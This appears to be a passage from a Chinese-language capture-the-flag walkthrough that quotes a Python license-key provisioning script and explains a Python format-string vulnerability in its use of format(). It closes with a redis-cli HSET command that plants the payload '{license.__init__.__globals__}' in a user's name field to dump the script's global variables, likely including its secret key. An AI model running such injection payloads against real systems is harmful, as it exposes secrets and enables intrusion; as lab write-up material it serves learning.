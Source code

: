 ```
        if(user_key.split(":")[0] == args.provision):
            print("")
            print("License key has already been provisioned for this user")
            print("")
            sys.exit()
    prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
    print("")
    print("Plaintext license key:")
    print("------------------------------------------------------")
    print(license_key)
    print("")
    license_key_encoded = license_key.encode()
    license_key_encrypted = f.encrypt(license_key_encoded)
    print("Encrypted license key (distribute to customer):")
    print("------------------------------------------------------")
    print(license_key_encrypted.decode())
    print("")
    with open("/root/license/keys", "a") as license_keys_file:
        license_keys_file.write(args.provision + ":" + license_key_encrypted.decode() + "\n")

#deprovision
if(args.deprovision):
    print("")
    print("License key deprovisioning coming soon")
    print("")
    sys.exit()

#check
if(args.check):
    print("")
    try:
        license_key_decrypted = f.decrypt(args.check.encode())
        print("License key valid! Decrypted value:")
        print("------------------------------------------------------")
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")
```

如果我们读取该文件，我们就可以执行[Python 格式字符串漏洞](https://podalirius.net/en/articles/python-format-string-vulnerabilities/)。format 函数存在漏洞

1. 使用redis-cli注册一个用户，利用username中的上述漏洞打印所有变量。

<pre><code><strong>HSET test2 username test1 password test first-name {license.__init__.__globals__} last-name test pro false
</strong></code></pre>
